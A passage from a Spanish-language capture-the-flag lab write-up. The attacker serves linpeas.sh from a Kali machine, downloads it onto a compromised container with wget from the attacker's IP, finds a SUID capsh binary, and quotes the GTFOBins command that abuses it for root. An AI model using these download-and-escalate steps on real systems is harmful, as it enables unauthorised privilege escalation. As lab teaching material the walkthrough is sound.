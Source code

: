 ```bash
❯ ls -l linpeas.sh
.rw-r--r-- kali kali 806 KB Sun Feb 16 02:40:08 2025  linpeas.sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el binario de `linpeas.sh` y le daremos los permisos correspondientes.

```bash
www-data@50bca5e748b0:/tmp$ wget 10.10.16.3/linpeas.sh; chmod +x linpeas.sh
--2025-02-16 01:41:11--  http://10.10.16.3/linpeas.sh
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                                                100%[===================================================================================================================================>] 805.61K  2.61MB/s    in 0.3s    

2025-02-16 01:41:12 (2.61 MB/s) - 'linpeas.sh' saved [824942/824942]
```

Después de ejecutar el escaneo, verificamos que se nos muestra el binario `/sbin/capsh` el cual dispone de privilegios de `SUID`.

<figure><img src="../../.gitbook/assets/5013_vmware_U3fKJGFcKM.png" alt=""><figcaption></figcaption></figure>

A través de la herramienta de [searchbins](https://github.com/r1vs3c/searchbins), realizaremos una consulta para verificar la manera de abusar de este binario que tiene privilegios de `SUID` para lograr acceso como `root`.

```bash
❯ searchbins -b capsh -f suid

[+] Binary: capsh

================================================================================
[*] Function: suid -> [https://gtfobins.github.io/gtfobins/capsh/#suid]

	| ./capsh --gid=0 --uid=0 --
```
